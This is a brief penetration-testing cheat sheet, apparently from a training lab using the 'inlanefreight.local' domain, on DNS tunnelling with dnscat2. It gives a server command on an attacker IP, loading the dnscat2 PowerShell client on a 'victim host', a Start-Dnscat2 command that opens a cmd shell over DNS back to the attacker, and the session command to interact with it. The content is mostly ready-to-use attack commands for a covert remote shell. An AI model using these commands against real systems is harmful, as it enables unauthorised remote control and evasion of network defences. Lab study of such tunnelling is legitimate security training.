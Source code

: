 
## DNSCAT

https://github.com/iagox86/dnscat2


Setting up DNSCAT
```shell-session
sudo ruby dnscat2.rb --dns host=10.10.14.18,port=53,domain=inlanefreight.local --no-cache
```

Interact with tunnel with https://github.com/lukebaggett/dnscat2-powershell

On victim host
```powershell-session
Import-Module .\dnscat2.ps1
```
```powershell-session
Start-Dnscat2 -DNSserver 10.10.14.18 -Domain inlanefreight.local -PreSharedSecret 0ec04a91cd1e963f8c03ca499d589d21 -Exec cmd
```

Interacting with victim host within dnscat
```shell-session
dnscat2> window -i 1
```
